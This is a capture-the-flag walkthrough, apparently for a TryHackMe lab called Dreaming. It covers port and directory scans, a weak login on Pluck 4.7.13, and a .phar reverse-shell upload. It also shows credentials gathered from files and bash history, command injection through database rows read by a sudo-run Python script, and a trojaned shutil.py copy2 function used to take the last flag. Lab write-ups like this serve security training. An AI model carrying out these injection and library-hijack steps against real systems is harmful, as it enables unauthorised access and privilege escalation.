






# Dreaming

## Nmap

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- 10.10.94.58  
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 21:10 EST
Nmap scan report for 10.10.94.58
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 40.30 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sCV -p 22,80 10.10.94.58   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 21:12 EST
Nmap scan report for 10.10.94.58
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
                                                               
```

## Website



## Gobuster

```
┌──(kali㉿kali)-[~/Desktop/Dreaming]
└─$ gobuster dir -u http://10.10.94.58 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.58
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/app                  (Status: 301) [Size: 308] [--> http://10.10.94.58/app/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

## Website



We can see the folder name is pluck 4.7.13.



This is vulnerable to RCE but we need a place to upload files.

### LFI

I tried a few lfi payloads on the file paremeter bur it does seem to get me good results.


## Login



I intercepted the request with burp and bruteforced it with a small wordlist with intruder.




It seems that the website blocks your IP if you try to many times. 

"You have exceeded the number of login attempts. Please wait 5 minutes before logging in again"

Thankfully i did not have to try this to many times, the password was just "password"

## Reverse Shell

To upload a shell we can use the file upload form. I used Pentest monkeys php reverse shell, and uploaded it. 

We cannot upload it with a php file, we need to change the content type and the extension before we do that. 

Looking at other POC's we find that a working extention is .phar, Content type is can be application/octet-stream




### Upgrade the shell

```python3 -c 'import pty; pty.spawn("/bin/bash")'```


## Lucien

```
www-data@dreaming:/opt$ ls
ls
getDreams.py  test.py
www-data@dreaming:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
```


We find a password inside test.py
```

www-data@dreaming:/opt$ cat test.py 
cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)
(...)

www-data@dreaming:/opt$ su lucien
su lucien
Password: HeyLucien#@1999!
```


## Death

```
lucien@dreaming:/opt$ cat getDreams.py
cat getDreams.py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )
```


```
lucien@dreaming:~$ cat .bash_history
cat .bash_history
ls
cd /etc/ssh/
clear
nano sshd_config
su root
cd ..
ls
cd ..
cd etc
ls
..
cd ..
cd usr
cd lib
cd python3.8
nano shutil.py 
clear
clear
su root
cd ~~
cd ~
clear
ls
mysql -u lucien -plucien42DBPASSWORD
ls -la
cat .bash_history 
cat .mysql_history 
clear
ls
ls -la
rm .mysql_history 
clear
history
exit
clear
ls
clear
cd /opt
ls
clear
nano test.sh
ls -la
su root
ls
mv test.sh test.py
ls -la
history
nano ~/.bash_history 
su root
clear
mysql -u lucien -p
clear
history
exit
clear
ls
history
cd ~~
cd ~
cat .bash_history 
clear
ls
sudo -l
/usr/bin/python3 /home/death/getDreams.py
sudo -u death /usr/bin/python3 /home/death/getDreams.py
clear
mysql -u lucien -p
mysql -u root -p
su root
```

**db**

db password is "lucien42DBPASSWORD"

```
select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
```

```
lucien@dreaming:~$ sudo -l  
sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

<hr>

We loop throught the dreams and echo them as a command with python3 subprocess. We can maybe use a dream with a pipe and get a new shell.

```
if not dreams_info:
    print("No dreams found in the database.")
else:
    # Loop through the results and echo the information using subprocess
    for dream_info in dreams_info:
        dreamer, dream = dream_info
        command = f"echo {dreamer} + {dream}"
        shell = subprocess.check_output(command, text=True, shell=True)
        print(shell)

```


```
mysql> INSERT INTO dreams (dreamer,dream) values ("test","dream | whoami");
INSERT INTO dreams (dreamer,dream) values ("test","dream | whoami");
Query OK, 1 row affected (0.01 sec)
```

```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

death
```

We can add the following rows into the table and execute commands as "death"

``````
INSERT INTO dreams (dreamer,dream) values ("test","dream | cat /home/death/death_flag.txt");

INSERT INTO dreams (dreamer,dream) values ("test","dream | chmod +rwx /home/death/getDreams.py");
``````

```
cat getDreams.py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"
```

```
lucien@dreaming:/home/death$ su death 
su death 
Password: !mementoMORI666!
```

## morpheus

```
death@dreaming:/home/morpheus$ cat restore.py
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```


In the death home directory we can find a .viminfo. This tells that this user has changed this shutil.py file
```
death@dreaming:~$ cat .viminfo
(...)
# File marks:
'0  297  0  /usr/lib/python3.8/shutil.py
|4,48,297,0,1691452277,"/usr/lib/python3.8/shutil.py"
(...)
```

```
ls -la /usr/lib/python3.8/shutil.py
-rw-rw-r-- 1 root death 51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
```

Change this file

```
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    """
    os.system("chmod 777 /home/morpheus/morpheus_flag.txt")
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst

```

Save the file and wait

```
death@dreaming:/home/morpheus$ ls -la
total 44
drwxr-xr-x 3 morpheus morpheus 4096 Aug  7 23:48 .
drwxr-xr-x 5 root     root     4096 Jul 28 22:26 ..
-rw------- 1 morpheus morpheus   58 Aug 14 18:16 .bash_history
-rw-r--r-- 1 morpheus morpheus  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 morpheus morpheus 3771 Feb 25  2020 .bashrc
-rw-rw-r-- 1 morpheus morpheus   22 Jul 28 22:37 kingdom
drwxrwxr-x 3 morpheus morpheus 4096 Jul 28 22:30 .local
-rwxrwxrwx 1 morpheus morpheus   28 Jul 28 22:29 morpheus_flag.txt
-rw-r--r-- 1 morpheus morpheus  807 Feb 25  2020 .profile
-rw-rw-r-- 1 morpheus morpheus  180 Aug  7 23:48 restore.py
-rw-rw-r-- 1 morpheus morpheus   66 Jul 28 22:33 .selected_editor
death@dreaming:/home/morpheus$ cat morpheus_flag.txt 
THM{***************}
```